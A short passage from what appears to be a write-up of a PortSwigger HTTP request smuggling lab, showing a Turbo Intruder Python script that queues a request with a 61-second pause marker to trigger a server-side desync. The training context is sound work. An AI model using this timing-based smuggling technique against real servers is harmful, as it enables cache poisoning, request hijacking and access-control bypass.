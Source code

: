 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226191721.png)

**Then modify the Python script to the following code:**
```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```
